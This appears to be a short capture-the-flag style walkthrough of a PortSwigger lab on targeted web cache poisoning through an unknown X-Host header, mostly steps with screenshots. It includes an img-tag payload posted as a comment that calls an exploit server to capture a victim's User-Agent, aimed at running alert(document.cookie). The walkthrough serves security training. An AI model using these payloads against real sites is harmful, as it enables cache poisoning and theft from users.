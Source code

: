# Targeted web cache poisoning using an unknown header

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs

### HINT: use extension param miner

### step1

right click on / (home page of the lab) go to extension then param miner then guess param then guess header now go to extension

![screenshot](./images/lab4_param_miner.png)

### step2

add X-Host: example.com

![screenshot](./images/lab4_x_host.png)

### step3

![screenshot](./images/lab4_expolite_payload.png)

### step4

![screenshot](./images/lab4_x_host_repeater.png)

### step5

![screenshot](./images/lab4_alert_box_pop_up.png)

### step6

to solve the lab we need user agent
so in comment section
`<img src="https://exploit-0aeb003b04c9a0da81c5ddc3010b00ac.exploit-server.net/test" />`

![screenshot](./images/lab4_comment_with_payload.png)

### step7

go to log section
copy user-agent

![screenshot](./images/lab4_access_log_expolit.png)

### step8

paste user-agent into repeter

![screenshot](./images/lab4_user_agent_repeter.png)

reload home page lab solved
